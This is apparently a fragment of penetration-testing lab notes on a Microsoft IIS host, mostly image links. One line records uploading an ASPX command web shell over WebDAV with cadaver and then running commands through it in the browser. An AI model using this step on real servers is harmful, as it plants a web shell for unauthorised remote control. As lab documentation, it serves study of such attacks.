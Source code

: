 ![](Images/Pasted%20image%2020221019005929.png)
![](Images/Pasted%20image%2020221019010137.png)
#Cadaver

#### -Typed "put /usr/share/webshells/asp/cmdasp.aspx" and navigated to "http://192.168.142.122/cmdasp.aspx" and find the following web page showing the cmdasp.asp file successfully downloaded to the target machine and was able to run commands:

![](Images/Pasted%20image%2020221019010408.png)

![](Images/Pasted%20image%2020221019010645.png)

## Port 80 - Microsoft IIS httpd 10.0

![](Images/Pasted%20image%2020221019010904.png)
#aspxcmdWebShell
